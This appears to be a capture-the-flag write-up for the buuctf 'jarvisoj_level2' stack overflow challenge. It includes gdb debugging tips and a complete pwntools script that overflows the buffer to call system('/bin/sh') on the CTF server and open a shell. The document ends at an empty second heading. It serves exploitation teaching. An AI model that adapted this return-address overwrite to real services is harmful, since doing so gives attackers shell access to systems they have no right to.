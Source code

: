 # Stack overflow

## 1. jarvisoj_level2

From: buuctf

click [here](../PwnFile/level2) to download.

We can easily find the **binsh_addr** and **system_call_address**.

It's an easy problem, but there's something new while using **gdb** to find the offset from buffer to *ebp*.

> When you try to set breakpoint, you may get the error like this:
>
> [Attaching after Thread 0xf7fc2400 (LWP 10853) vfork to child process 10856]
> 
> [New inferior 2 (process 10856)]
> 
> [Thread debugging using libthread_db enabled]
> 
> Using host libthread_db library "/usr/lib/libthread_db.so.1".
> 
> [Detaching vfork parent process 10853 after child exec]
> 
> [Inferior 1 (process 10853) detached]
> 
> process 10856 is executing new program: /usr/bin/bash
> 
> Warning:
>
> Cannot insert breakpoint 2.
>
> Cannot access memory at address 0x8048475

You need to use **set follow-fork-mode parent** command to continue. 

There's nothing new about this.

Exp:
```python
from pwn import *

# sh = process('./level2')
sh = remote('node4.buuoj.cn', 25873)

binsh_addr = 0x804a024
target = 0x804849e
offset = 0xffffcb78 - 0xffffcaf0 + 4

payload = flat([cyclic(offset), target, binsh_addr])
sh.sendlineafter(b'Input:', payload)
sh.interactive()
```

## 2. 
